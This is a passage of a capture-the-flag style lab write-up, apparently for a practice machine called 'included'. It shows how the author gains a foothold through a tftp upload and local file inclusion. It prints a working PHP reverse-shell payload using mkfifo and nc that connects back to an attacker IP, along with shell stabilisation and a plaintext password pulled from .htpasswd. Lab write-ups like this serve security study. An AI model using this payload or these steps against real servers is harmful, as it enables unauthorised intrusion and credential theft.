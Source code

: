 - Bsed on research  in the man files for tftp I found that it doesnt require authentication like ftp and requires a custom solution on the server.
----
## Foothold

- Given that we can load localfiles I decided to see if we can do a basic reverse shell, this didn't work as I didnt get a response in the cmd. This means that we dont have Remote File inclusion
```shell
──(root㉿kali)-[/home/kali/Desktop/included]
└─# ls                     
shell.php
                                                                                                                    
┌──(root㉿kali)-[/home/kali/Desktop/included]
└─# python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...


```

- I then tried to do a basic remote in the url but this didnt work so i added the shell to the file that was uploaded 
```shell
 cat exploit.php        
<?php
            system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.26 1337 >/tmp/f");
    
?>
```

- ran the script and the browser created the shell
```shell
$ whoami
www-data
$ pwd
/var/www/html
$ 
ls



www-data@included:/var$ ^Z
zsh: suspended  nc -lvnp 1337
                                        
stty raw -echo; fg;           




[12]    continued  nc -lvnp 1337
          export TERM=xterm
www-data@included:/var$ 
```
- I then looked in the files for the the www and found the .htpasswd file for mike.
```shell
www-data@included:/var/www/html$ cat .htpasswd 
mike:Sheffield19
www-data@included:/var/www/html$ 

```
- I then tried to su into mike  and managed to gain access to that user
```shell
www-data@included:/var/www/html$ su mike
Password: 
mike@included:/var/www/html$ 

```